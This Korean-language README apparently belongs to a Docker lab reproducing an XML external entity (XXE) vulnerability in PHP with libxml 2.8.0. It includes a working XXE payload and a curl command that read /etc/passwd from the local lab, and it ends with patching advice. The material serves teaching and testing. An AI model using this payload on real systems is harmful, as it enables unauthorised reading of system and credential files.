



# PHP 환경 XML 외부 엔티티 주입 취약성 (XXE)

### 환경소개

- PHP 7.0.30
- libxml 2.8.0

### 환경 구성 및 실행

# 1. 아래 명령어를 사용해 테스트 환경을 실행함.
```
docker compose up -d
```

# 2. 환경 실행
환경이 시작된 후 `http://localhost:8083/index.php`를 접속하여 phpinfo를 확인하고, libxml을 검색하여 버전이 2.8.0이라는 것을 확인할 수 있음.



# 3. 웹 디렉터리
웹 디렉터리는 `./www`이며, 여기에는 4개의 파일이 포함되어 있음. 

```bash
$ ls -al
total 24
drwxr-xr-x 2 root root 4096 Oct 31 09:06 .
drwxr-xr-x 3 root root 4096 Jun 21  2018 ..
-rw-r--r-- 1 root root  101 Oct 31 09:06 SimpleXMLElement.php # 예시: SimpleXMLElement 클래스를 사용하여 body를 파싱하는 예제
-rw-r--r-- 1 root root  112 Oct 31 09:06 dom.php ## 예시: DOMDocument를 사용하여 body를 파싱하는 예제
-rw-r--r-- 1 root root   16 Oct 31 09:06 index.php # phpinfo로 확인 가능
-rw-r--r-- 1 root root  102 Oct 31 09:06 simplexml_load_string.php # 예시: simplexml_load_string 함수를 사용하여 body를 파싱하는 예제
```

`dom.php`, `SimpleXMLElement.php` 및 `simplexml_load_string.php`는 모두 XXE 취약점을 유발함. 
<br>

### POC

# POC

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

### 결과 poc를 이용해 `etc/passwd` 파일을 읽을 수 있음.

# 버프스위트 사용 <br>


# curl 사용 </br>
```bash
$ curl -d '<?xml version="1.0" encoding="utf-8"?> <!DOCTYPE xxe [ <!ELEMENT name ANY > <!ENTITY xxe SYSTEM "file:///etc/passwd" >]> <root> <name>&xxe;</name> </root>' -X POST http://localhost:8083/simplexml_load_string.php
```



### 정리
PHP의 버전은 XXE 공격에 영향을 미치지 않음.
<br>
libxml2.9.0 이후에는 기본적으로 외부 엔터티가 구문 분석되지 않으므로 XXE 취약점이 사라지고 있음.
<br>
PHP 환경에서 XXE 취약점을 보여주기 위해 이 예제에서는 libxml2.8.0 버전을 PHP로 컴파일함.
<br> 
phpinfo를 통해 libxml2.8.0 버전이라면 패치를 진행하는 것이 중요함.
